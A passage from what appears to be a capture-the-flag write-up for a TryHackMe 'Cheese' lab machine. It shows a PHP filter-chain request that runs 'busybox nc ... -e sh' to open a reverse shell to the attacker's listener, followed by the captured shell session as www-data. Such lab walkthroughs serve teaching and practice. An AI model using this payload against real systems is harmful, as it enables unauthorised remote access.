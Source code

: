 ![6](/assets/img/tryhackme/ctf/cheesectf/6.png)

We get a webshell under the `www-data` user. Now, we can set up a [reverse shell](https://www.revshells.com/) and a listener on our machine, then [upgrading](https://0xffsec.com/handbook/shells/full-tty/) it for more convenience :

```console
http://10.10.131.228/secret-script.php?0=busybox%20nc%2010.14.83.7%201337%20-e%20sh&file=php://filter/convert.iconv.UTF8.CSISO2022KR|[...]|convert.base64-decode/resource=php://temp
```

Then, we receive the reverse shell :

```shell
$ rlwrap nc -lvnp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.131.228.
Ncat: Connection from 10.10.131.228:56506.
$ ls
adminpanel.css
images
index.html
login.css
login.php
messages.html
orders.html
secret-script.php
style.css
supersecretadminpanel.html
supersecretmessageforadmin
users.html

$ whoami
www-data
```

## Switching User
